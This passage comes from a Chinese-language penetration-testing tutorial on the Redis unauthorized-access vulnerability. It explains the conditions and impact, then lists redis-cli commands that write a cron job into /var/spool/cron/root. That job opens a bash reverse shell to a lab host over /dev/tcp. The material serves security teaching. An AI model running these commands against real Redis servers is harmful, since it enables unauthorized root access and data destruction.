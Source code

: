 
**第六步：**使用/etc目录下的reids.conf文件中的配置启动redis服务：

```bash
redis-server /etc/redis.conf
```

## Redis 未授权访问漏洞

Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空），会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，可以利用 Redis 自身的提供的 config 命令像目标主机写WebShell、写SSH公钥、创建计划任务反弹Shell等。其思路都是一样的，就是先将Redis的本地数据库存放目录设置为web目录、~/.ssh目录或/var/spool/cron目录等，然后将dbfilename（本地数据库文件名）设置为文件名你想要写入的文件名称，最后再执行save或bgsave保存，则我们就指定的目录里写入指定的文件了。

![pt-1.1](C:\Users\wlen\Desktop\img3\pt-1.1.png)

**简单说，漏洞的产生条件有以下两点：**

> redis 绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网。
>
> 没有设置密码认证（一般为空），可以免密码远程登录redis服务。

**漏洞危害：**

> 攻击者无需认证就可以访问到内部数据，可能导致敏感信息泄露，黑客也可以恶意执行flushall来清空所有数据；
>
> 攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件；
>
> 最严重的情况，如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器。

## 基于未授权访问漏洞的利用

## 0x02 通过计划任务反弹shell

利用条件：

- redis以root身份运行
- 未授权访问或授权口令已知

在kali中通过`redis-cli -h 192.168.100.101 -p 6379`连接到redis，输入以下指令利用crontab反弹shell



```shell
# cron表达式格式：{秒数} {分钟} {小时} {日期} {月份} {星期} {年份(可为空)} 命令
# 每分钟执行一次echo "haha"：* * * * * echo "haha"
192.168.100.101:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.100.99/4444 0>&1\n"

# 设置目录为/var/spool/cron/
192.168.100.101:6379> config set dir /var/spool/cron/

# 设置文件名为root
192.168.100.101:6379> config set dbfilename root

# 保存快照到本地
192.168.100.101:6379> save
```
